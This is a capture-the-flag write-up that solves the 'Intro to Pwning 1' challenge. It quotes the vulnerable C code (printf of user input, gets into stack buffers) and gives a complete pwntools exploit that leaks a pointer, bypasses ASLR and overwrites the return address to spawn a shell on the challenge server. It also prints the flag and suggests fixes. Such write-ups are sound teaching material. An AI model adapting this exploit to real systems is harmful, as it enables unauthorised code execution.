

# Intro to Pwning 1

## Solution

Taking a look at the source code, it is pretty clear that we have a string format vulnerability in the function `welcome` and a stack-based buffer overflow in `welcome` and `AAAAAAAA`:
```c
void welcome() {                                                                                                                                                                                                   
    char read_buf[0xff];                                                                                                                                                                                           
    ...
    gets(read_buf);                                                                                                                                                                                                
    ...
    printf(read_buf);
}
...
void AAAAAAAA() {
    char read_buf[0xff];
    ... 
    gets(read_buf);
    ...
}
```
We also have a function `WINgardium_leviosa` that executes `/bin/sh` for us (how convenient):
```c
WINgardium_leviosa() {                                                                                                                                                                                        
    printf("┌───────────────────────┐\n");                                                                                                                                                                         
    printf("│ You are a Slytherin.. │\n");                                                                                                                                                                         
    printf("└───────────────────────┘\n");                                                                                                                                                                         
    system("/bin/sh");                                                                                                                                                                                             
}  
```

Running `checksec pwn1` gives us information about the security mitigations the binary was compiled with:
```
$ checksec pwn1
[*] '/home/layton/Desktop/cscg/Intro-to-Pwning-1/pwn1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since the `NX-Bit` is set, we can't just execute shellcode on the stack and we also can't just jump to a static address for example the `WINgardium_leviosa` function due to `ASLR`.
We first have to leak an address with the string format vulnerabily which lets us then calculate the offset to the `WINgardium_leviosa`.
<br/> <br/>
After opening the file in gdb, we can simply type `r` to run the program and enter our format string:
<br/> <br/>

<br/> <br/>
We can now see some hex values being printed and also a value starting with `5555` which is usually a stack value and can be used to easily calculate
the offset to the `WINgardium_leviosa`. Running `p WINgardium_leviosa` gives us the address of that function.
<br/>
With the next `gets()` in `AAAAAAAA` we can exploit the buffer overflow with the calculated values, we need however make the `strcmp` in `AAAAAAAA` return `0`:
```c
...
if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
...
```
We can bypass this by adding a nullbyte `\0` after `Expelliarmus`, due to C's nature of a null-byte meaning the end of a string.
<br/>
The final exploit then looks something likes this:
```python
#!/usr/bin/env python3

from pwn import *

format_string = "|".join(["%p" for _ in range(65)])

p = remote("hax1.allesctf.net", 9100)

p.recvuntil("Enter your witch name:")
p.sendline(format_string)

leaks = p.recvuntil("enter your magic spell:").decode("utf-8").split("|")

main = int(leaks[46], 16)
log.info(f"leaked main pointer: {hex(main)}")
win = main - 0x108
ret = win + 0x36

padding = b"A"*cyclic_find(b"cnaa")

p.sendline(b"Expelliarmus\x00"+padding+p64(ret)+p64(win))

p.interactive()
```

We enter the format string in the first `gets()`, get the address at the specific index, calculate the offset to the `WINgardium_leviosa` function and a simple `ret`
instruction which is needed to allign the stack. With the next `gets()` we exploit the buffer overflow and overwrite rip to point to the `ret` instruction and
then the `WINgardium_leviosa` function which executes the shell.

Flag: `CSCG{NOW_PRACTICE_MORE}`


## Mitigation

Mitigate the format string vulnerability by replacing `printf(read_buf);` with `printf("%s", read_buf);"` and the buffer overflow by using a safe alternative to `gets` such as
`fgets` that only reads as much characters as specified and set it to something smaller than the buffer size.
